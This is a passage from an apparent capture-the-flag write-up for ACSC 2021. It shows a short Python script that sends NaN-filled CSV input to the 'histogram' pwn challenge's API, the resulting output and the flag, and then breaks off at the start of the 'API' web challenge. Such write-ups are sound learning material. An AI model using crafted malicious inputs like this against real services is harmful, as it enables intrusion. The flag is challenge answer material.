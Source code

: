### Solving
Now we got all the things we need let's exploit it!

Wrote a simple python script using requests:
```py
import requests
url = "https://histogram.chal.acsc.asia/api/histogram"
r = requests.post(url, files={'csv': "nan,30\n"*520},verify=False)
print(r.text)
# {"status":"success","result":{"wsum":[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],"hsum":[0,0,520,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0],"map":[[0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,...,520]]}}ACSC{NaN_demo_iiyo}
```
And got the flag!! Most interesting pwn challenge I ever solve! 

## Flag
```
ACSC{NaN_demo_iiyo}
```
---

# API (web-220) {#API}

![image5](/uploads/acsc2021/image5.png)

## Challenge files
- [api.tar.gz](/uploads/acsc2021/api.tar.gz_e8eeed86d26a37a1b233b7e8b0e7f0ac.gz)

We are given an URL and the website source code

